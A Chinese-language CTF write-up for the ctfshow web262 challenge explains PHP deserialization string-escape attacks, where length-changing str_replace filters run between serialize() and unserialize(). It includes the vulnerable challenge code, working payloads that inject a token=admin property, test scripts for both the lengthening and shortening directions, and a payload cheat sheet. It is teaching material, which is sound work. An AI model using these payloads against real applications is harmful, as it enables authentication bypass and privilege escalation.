

## 一句话概括

序列化字符串里每个字符串都带一个**长度字段** `s:长度:"内容";`，而解析器**只按长度数格子、从不核对内容真实有多长**。所以只要「序列化之后、反序列化之前」中间加了一道会**改变字符串长度**的过滤（替换/删除关键字），长度字段就和实际内容对不上，解析边界随之移位 —— 攻击者就能把本该是「数据」的部分变成「结构」，注入自己想要的属性。



## 原理

### 1. 根因是一行代码的顺序

```text
危险顺序：serialize($msg) → str_replace(...) → unserialize(...)
安全顺序：str_replace(...) → serialize($msg) → unserialize(...)
```

差别在于：**长度字段是在 `serialize()` 那一刻算出来的**。

- 先替换再序列化 → 长度字段描述的是替换后的内容 → 永远一致，安全；
- 先序列化再替换 → 长度字段描述的是替换**前**的内容，而实际内容已经被替换改过 → **不一致**，这就是漏洞。

### 2. 解析器怎么读一个字符串

```text
s:5:"hello";
↑ ↑   ↑
| |   └─ 内容：解析器从这里开始数
| └───── 长度：解析器只数这么多个字节
└─────── 类型：s = string
```

解析器读到 `s:5:` 之后，就**从引号后开始数 5 个字节**，然后期待下一个字符是 `"`、再下一个是 `;`。它**不会**回头检查「这 5 个字节后面真的是引号吗」。

于是：

| 情况 | 长度字段 vs 实际内容 | 解析器的行为 | 结果 |
|---|---|---|---|
| 正常 | 相等 | 刚好读完 | 边界正确 |
| **内容变长**（增多） | 长度 **<** 实际 | **提前读满**，多出来的尾部落在引号外 | 尾部溢出成**结构** |
| **内容变短**（逃逸） | 长度 **>** 实际 | **继续往后读**，把后面的结构字符吃进来 | 后面的 `";}` 被**吃掉** |

两种方向都能打，只是利用姿势不同。

### 3. 变长（字符增多）：尾部溢出成结构

典型来源是**替换成长字符串**，例如把 `fuck` 换成 `loveU`（4 字节 → 5 字节，**每个 +1**）。

设某个属性值里有 `n` 个 `fuck`，那么：

```text
声明长度  = 替换前的长度
实际长度  = 替换前的长度 + n        （每个 fuck 多出 1 字节）
=> 实际比声明长 n 个字节
```

解析器只读「声明长度」那么多字节就收工，于是**最后 n 个字节被甩到引号外面** —— 只要把 payload 放在这个字符串的**尾部**，它就会落到结构层被当成属性定义。

### 4. 变短（字符逃逸）：把后面的结构吃进来

典型来源是**删除关键字**，例如 `str_replace('flag','',$s)`（4 字节 → 0 字节，**每个 −4**）。

```text
声明长度  = 删除前的长度
实际长度  = 删除前的长度 − 4k      （k 个 flag）
=> 声明比实际长 4k 个字节
```

解析器按声明长度继续往后读，就会把原本属于**下一个属性头部**的字符（`";s:1:"b";s:24:"` 这一串）**一并读进当前这个字符串的值里**。下一个属性的头部被吃掉后，它的**内容**就被当成结构重新解析 —— 攻击者只要让那个内容「长得像结构」，解析器就会照着重新划分对象的属性。

下面第 6 节给出一组**可复现的实测数值**。

## 本题情景与解题手法（ctfshow web262）

### 题目形态

题目分成两个文件（原笔记只保留了片段，下面按笔记描述整理，**结构示意**）：

```php
// index.php：接收参数 → 序列化 → 替换 → 写 cookie
<?php
class message {
    public $from;
    public $msg;
    public $to;
    public $token = 'user';          // ★ 目标：把它改成 admin
    public function __construct($f, $m, $t) {
        $this->from = $f;
        $this->msg  = $m;
        $this->to   = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

$msg  = new message($f, $m, $t);
$ser  = serialize($msg);
$ser  = str_replace('fuck', 'loveU', $ser);       // ★ 关键字被“换长”
setcookie('msg', base64_encode($ser));
?>
```

```php
// message.php：读出 cookie → 反序列化（漏洞在这里触发）
<?php
$msg = base64_decode($_COOKIE['msg']);
$obj = unserialize($msg);          // ★ 危险入口
echo $obj->token;                  // 以 token 判断身份
?>
```

程序流程一句话：

```text
用户可控参数 f / m / t → serialize($msg) → str_replace → 写入 cookie
[另一个页面] 读 cookie → unserialize() → 用到 token
```

**顺序是致命的**：`serialize → str_replace → unserialize`。

### 第一步：看清「谁会被换长」

`str_replace('fuck', 'loveU', ...)` 是**变长**替换：4 → 5，每个出现**+1 字节**。

放进去的 `fuck` 越多，长度字段和实际内容的差值就越大 —— 而这个差值，就是「能被甩出去当结构的字节数」。

### 第二步：确定要注入什么

目标是让反序列化后的对象的 `token` 变成 `admin`。那就得在结构层注入一段属性定义：

```text
";s:5:"token";s:5:"admin";}
```

这段的含义（按顺序读）：

| 片段 | 作用 |
|---|---|
| `";` | 先**闭合**当前那个字符串（结束它） |
| `s:5:"token";` | 声明一个属性名 `token` |
| `s:5:"admin";` | 它的值是 `admin` |
| `}` | **闭合整个对象** |

**数一下这 27 个字符**：`"` `;` `s` `:` `5` `:` `"` `t` `o` `k` `e` `n` `"` `;` `s` `:` `5` `:` `"` `a` `d` `m` `i` `n` `"` `;` `}` = **27**。

### 第三步：算需要多少个 `fuck`

因为每个 `fuck` 让实际内容比声明多 **1** 字节，而我们要甩出去的结构恰好 **27** 字节，所以：

```text
需要的 fuck 个数 = 要甩出的字节数 / 每个多出的字节数
                 = 27 / 1
                 = 27
```

也就是说：**payload 有多长，前面就垫多少个 `fuck`**（在这道题里 1 个 `fuck` 恰好对应 1 字节）。

### 第四步：把参数拼出来，传给首页

```text
?f=monica&m=shuai&t=fuckfuckfuck...fuck";s:5:"token";s:5:"admin";}
                                     ↑ 27 个 fuck
```

（`f`、`m` 随便填，真正干活的是 `t`。）

### 第五步：访问 `message.php`

首页负责把构造好的 cookie 写进浏览器；漏洞**不在这页触发**，要靠 `message.php` 去读 cookie 并 `unserialize()`。所以：

```text
先访问 index.php 写 cookie → 再访问 message.php → token 已是 admin
```

原笔记的疑问「那为什么大家会知道去 `message.php`」，答案就在这：**题目是由多个文件组成的**，`index.php` 只做了「写 cookie」这半段：

| 文件 | 作用 |
|---|---|
| `index.php` | 接收 GET 参数 → 序列化 → 替换 → **写 cookie** |
| `message.php` | **读 cookie** → `unserialize()` → 用到 `token` |

一段代码里**只有「写」没有「读」**时，漏洞一定在另一个页面触发 —— 扫描目录、看题面文件名、找 `unserialize` 都在哪个文件里，是常规动作（这题也可以先用 **dirmap** 之类工具扫一遍目录，见 14 篇）。

### 注入手法一句话总结

> **`str_replace('fuck','loveU')` 把内容换长** → 声明长度比实际短 27 字节 → 解析器提前读满，尾部 27 字节溢出成结构 → 把 `";s:5:"token";s:5:"admin";}` 放在值尾部、前面垫 27 个 `fuck` → 首页写 cookie、`message.php` 读 cookie 反序列化 → `token` 变成 `admin`。

## 完整示例：两个方向的对照实验

### A. 增多（web262 同型，PHP 实测）

```php
<?php
class message {
    public $from; public $msg; public $to; public $token = 'user';
    function __construct($f, $m, $t) { $this->from=$f; $this->msg=$m; $this->to=$t; }
}

$f = 'monica'; $m = 'shuai';
$t = str_repeat('fuck', 27) . '";s:5:"token";s:5:"admin";}';   // 108 + 27 = 135 字节

$ser = serialize(new message($f, $m, $t));      // 声明 to 的长度 = 135
$out = str_replace('fuck', 'loveU', $ser);      // 实际内容变成 135 + 27 = 162 字节

$o = unserialize($out);
echo $o->token;                                  // 输出：admin
?>
```

长度账：

| 项 | 数值 |
|---|---|
| `t` 里 `fuck` 的个数 | 27 |
| 替换前长度（= 声明长度） | 27 × 4 + 27 = **135** |
| 替换后长度（= 实际内容） | 27 × 5 + 27 = **162** |
| 差值 | 162 − 135 = **27** ← 正好等于要注入的 payload 长度 |

解析器读满 135 字节（正好是 27 个 `loveU`）就收工，后面那 27 字节 `";s:5:"token";s:5:"admin";}` 落到引号外，被当成新的属性定义 —— `token` 被改成 `admin`。

### B. 变短（逃逸，PHP 实测）

```php
<?php
class A { public $a = ''; public $b = ''; }
function filt($s) { return str_replace('flag', '', $s); }   // 关键字被删掉 → 内容变短

$o = new A();
$o->a = 'flagflagflagflag';                  // 16 字节，过滤后变成 0 字节
$o->b = '";s:1:"b";s:6:"hacker";}';          // 想让 b 变成 hacker

$ser = serialize($o);
$ser = filt($ser);
$o2  = unserialize($ser);
// 实测结果：
//   a = '";s:1:"b";s:24:"'
//   b = 'hacker'
?>
```

逐步拆：

| 步骤 | 内容 |
|---|---|
| 序列化后 | `O:1:"A":2:{s:1:"a";s:16:"flagflagflagflag";s:1:"b";s:24:"...";}` |
| 过滤后 | `O:1:"A":2:{s:1:"a";s:16:"";s:1:"b";s:24:"...";}` ← `a` 实际只剩 0 字节，但声明还是 16 |
| 解析器 | 从 `a` 的值处**继续往后读 16 字节** |
| 被吃掉的 16 字节 | `";s:1:"b";s:24:` ← **这原本是属性 `b` 的头部** |
| 结果 | `a` 的值 = 被吃进来的那 16 字节；`b` 的**内容**被当成结构重新解析 → `b = "hacker"` |

`4 个 flag × 4 字节 = 16 字节`，恰好等于要吃掉的长度 —— 这就是「变短方向」的长度算术。

## 利用条件

1. **可控参数会进入被序列化的对象**（属性值可控）；
2. **序列化之后、反序列化之前有「改变长度」的处理**：`str_replace` 把关键字**换长**或**删短**、`preg_replace` 替换、`addslashes` 加长、`trim` 去空白等；
3. **替换用的关键字在可控属性里能出现**（出现在被替换的位置上）；
4. **替换结果会流回 `unserialize()`**：直接反序列化，或先写进 cookie / session 再由另一页读出来反序列化（web262 属于后者）；
5. **知道要注入什么属性**（本题是 `token`）。

## Payload 速查

| 目的 | 写法 |
|---|---|
| 闭合当前字符串并注入属性 | `";s:5:"token";s:5:"admin";}` |
| 变长时：垫够使内容变长的关键字 | `fuck` × (payload 长度 / 每个关键字的增量子) |
| 变短时：垫够使内容变短的关键字 | `flag` × (要吃掉的长度 / 每个关键字 4 字节) |
| 推断式子（变长） | `payload 长度 = 关键字个数 × (替换后长度 − 替换前长度)` |
| 推断式子（变短） | `被吃字节数 = 关键字个数 × 每个关键字长度` |

> 通用做法：先本地跑一遍 `serialize()` / `str_replace()` / `unserialize()`，**用实测结果核对长度**，别硬算。

## 踩坑与备注

- **顺序是根因**：`str_replace → serialize` 安全，`serialize → str_replace` 危险。审计时先看这两句谁在前。
- **「为什么不是 26 或 28」**：垫的关键字个数必须让「长度差」**正好等于**要甩出/要吃掉的结构字节数。多一个少一个都会解析失败。
- **原笔记 `字符增多.md` 只有一张截图**，没有文字正文；其内容与 web262 属同一主题，已合并到本文第 3、4 节与题解部分。
- **两个方向别记混**：
  - **换长 / 增多** → 解析器**提前收工** → payload 放**尾部**，溢出成结构；
  - **删短 / 逃逸** → 解析器**多吃** → 把后面的 `";}` **吃掉**，让后一个属性重新解析。
- **cookie 里的 payload 要先 base64**：`setcookie` 对特殊字符不友好，题目常做一层 `base64_encode`，读到后再 `base64_decode`。
- **漏洞不一定在同一页触发**：像 web262 这样「一页写、一页读」的题，光盯着 `index.php` 是找不到 `unserialize` 的；先目录扫描、再按页面找 `unserialize` 更快。
- **过滤关键字也可能被替换成空以外的内容**（比如替换成等长字符串）—— 等长替换不会造成长度错位，也就打不了，这时要另找切入点。
